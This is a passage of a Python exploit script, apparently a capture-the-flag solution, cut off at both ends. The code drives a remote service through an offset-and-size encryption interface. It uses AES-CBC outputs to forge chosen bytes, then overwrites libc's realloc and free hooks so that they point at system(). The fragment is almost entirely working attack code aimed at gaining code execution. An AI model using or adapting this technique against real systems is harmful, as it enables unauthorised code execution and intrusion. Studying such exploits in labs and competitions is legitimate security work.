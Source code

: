 ```python
        a = AES.new(key=key, IV=''.join(map(chr, curb[:16])), mode=AES.MODE_CBC)
        ct = a.encrypt(curd)
        if ct[-1] == tt:
            return [-1]
        else:
            return []
    for p0 in xrange(0x20):
        a = AES.new(key=key, IV=''.join(map(chr, curb[:16])), mode=AES.MODE_CBC)
        ct = a.encrypt(''.join(map(chr, curb[p0:p0+0x10])))
        nextb = curb[:]
        nextb[p0:p0+0x10] = map(ord, ct)
        res = dosearch(cnt+1, nextb, curd, tt, maxh)
        if len(res)>0:
            return [p0]+res
    return []

for i in range(3):
    curd = ''.join(map(chr,dat[3-i:16+3-i]))
    curb = buf[:]
    res = dosearch(0, curb, curd, tar[2-i], 2)
    if len(res)==0:
        res = dosearch(0, curb, curd, tar[2-i], 3)
    print res
    assert len(res)>0
    for pos in res:
        if pos==-1:
            break
        c.sendlineafter('offset:',getoff(pos-0x10))
        c.sendlineafter('size:','15')
        a = AES.new(key=key, IV=''.join(map(chr, buf[:16])), mode=AES.MODE_CBC)
        ct = a.encrypt(''.join(map(chr, buf[pos:pos+0x10])))
        buf[pos:pos+0x10] = map(ord,ct)
        ct0 = c.recv(16,timeout=1)
        assert ct == ct0

    c.sendlineafter('offset:',getoff(reallochook-(pie+0x2023a0)-0x10+3-i))
    c.sendlineafter('size:','15')
    a = AES.new(key=key, IV=''.join(map(chr, buf[:16])), mode=AES.MODE_CBC)
    ct = a.encrypt(curd)
    dat[3-i:16+3-i] = map(ord,ct)
    ct0 = c.recv(16,timeout=1)
    assert ct == ct0
    print hex(ord(tar[2-i]))
    print 'true'
    #pause()
        
freehook = libc+0x3ed8e8
tar = p64(system)
dat = p64(libc+0x5e94c0)+p64(0)+p64(0)
dat = map(ord, dat)

for i in range(6):
    curd = ''.join(map(chr,dat[6-i:16+6-i]))
    curb = buf[:]
    res = dosearch(0, curb, curd, tar[5-i], 2)
    if len(res)==0:
        res = dosearch(0, curb, curd, tar[5-i], 3)
    print res
    assert len(res)>0
    for pos in res:
        if pos==-1:
            break
        c.sendlineafter('offset:',getoff(pos-0x10))
```